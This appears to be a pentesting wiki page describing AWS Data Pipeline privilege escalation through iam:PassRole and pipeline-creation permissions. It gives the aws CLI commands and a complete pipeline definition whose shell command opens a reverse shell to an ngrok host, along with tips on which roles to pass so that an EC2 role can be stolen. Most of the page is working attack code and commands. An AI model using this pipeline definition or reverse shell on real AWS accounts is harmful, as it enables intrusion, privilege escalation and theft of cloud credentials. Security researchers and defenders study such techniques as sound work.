 # AWS - Datapipeline Privesc

## datapipeline

For more info about datapipeline check:

[[../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md]]

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Users with these **permissions can escalate privileges by creating a Data Pipeline** to execute arbitrary commands using the **permissions of the assigned role:**

```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```

After pipeline creation, the attacker updates its definition to dictate specific actions or resource creations:

```json
{
  "objects": [
    {
      "id": "CreateDirectory",
      "type": "ShellCommandActivity",
      "command": "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
      "runsOn": { "ref": "instance" }
    },
    {
      "id": "Default",
      "scheduleType": "ondemand",
      "failureAndRerunMode": "CASCADE",
      "name": "Default",
      "role": "assumable_datapipeline",
      "resourceRole": "assumable_datapipeline"
    },
    {
      "id": "instance",
      "name": "instance",
      "type": "Ec2Resource",
      "actionOnTaskFailure": "terminate",
      "actionOnResourceFailure": "retryAll",
      "maximumRetries": "1",
      "instanceType": "t2.micro",
      "securityGroups": ["default"],
      "role": "assumable_datapipeline",
      "resourceRole": "assumable_ec2_profile_instance"
    }
  ]
}
```

> [!NOTE]
> Note that the **role** in **line 14, 15 and 27** needs to be a role **assumable by datapipeline.amazonaws.com** and the role in **line 28** needs to be a **role assumable by ec2.amazonaws.com with a EC2 profile instance**.
>
> Moreover, the EC2 instance will only have access to the role assumable by the EC2 instance (so you can only steal that one).

```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
    --pipeline-definition file:///pipeline/definition.json
```

The **pipeline definition file, crafted by the attacker, includes directives to execute commands** or create resources via the AWS API, leveraging the Data Pipeline's role permissions to potentially gain additional privileges.

**Potential Impact:** Direct privesc to the ec2 service role specified.

## References

- [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

